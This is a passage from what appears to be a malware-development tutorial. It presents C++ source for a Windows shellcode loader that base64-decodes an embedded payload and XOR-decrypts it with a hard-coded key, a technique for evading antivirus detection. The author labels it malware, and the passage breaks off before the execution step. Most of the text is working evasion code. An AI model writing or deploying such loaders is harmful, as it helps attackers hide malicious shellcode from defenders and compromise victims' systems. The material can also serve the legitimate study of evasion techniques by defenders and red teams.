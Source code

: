 ```cpp
XOR((char *) exec_mem, my_payload_len, my_secret_key, sizeof(my_secret_key));
```

Of course, we use the same secret key for `XOR` and "de`XOR`" our payload.     

So, the full source code of our "malware" is looks like this:      

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

int decodeBase64(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {
  DWORD outLen;
  BOOL fRet;

  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);	
  if (!fRet) outLen = 0;  // failed	
  return(outLen);
}

// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

int main() {
  unsigned int my_payload_len = 313;
  unsigned int out_len = 0;

  unsigned char meow_payload[] = "kTHykYCajYyNs3JldCo0OD0rIiM4VKAWLeggBUoj7it1Rzv+IkVMO+4RIls8ZNIzJzRCvDhUst9ZAg5nWEskuKR0MnSxh58hJDJMLf85RUfmO089cbVM+OXrcmV0I+C5GRY7dKA1TPgte0wh/ytFMGypkCk4mrtNJOhG7TxqszRcsDtEsMkzsqxuM2S1U4UMnEc/djxBejZcsgezLFUh8i1dOnSgA0wy7m86WzDgJWUkeKNLMe52+y1ioiQsKj0nNCMyLTE8Mykt4J5FNTmamTU4Ki9OLflhjCqNmos2LL6seXN1cFs6/vB5c2V0VSn06FxydXAtQ7ok2TfmImyarNaZbl96JMjV8N7vmqEj5r1FRXUJeuWJkxBmySJnGQoTbSAy/Kqapz4ADAVIGQ4KDkx5TiteSyxOZQ==";
  unsigned int meow_len = sizeof(meow_payload);
  printf("base64-encoded shellcode:\n%s\n", meow_payload);

  unsigned char exec_mem[my_payload_len];
  decodeBase64((const BYTE *)meow_payload, meow_len, (char *) exec_mem, meow_len);

  printf("xored:\n");
  for (size_t i = 0; i < my_payload_len; i++) {
    printf("\\x%02x", exec_mem[i]);
  }
  printf("\n\n");

  XOR((char *) exec_mem, my_payload_len, my_secret_key, sizeof(my_secret_key));

```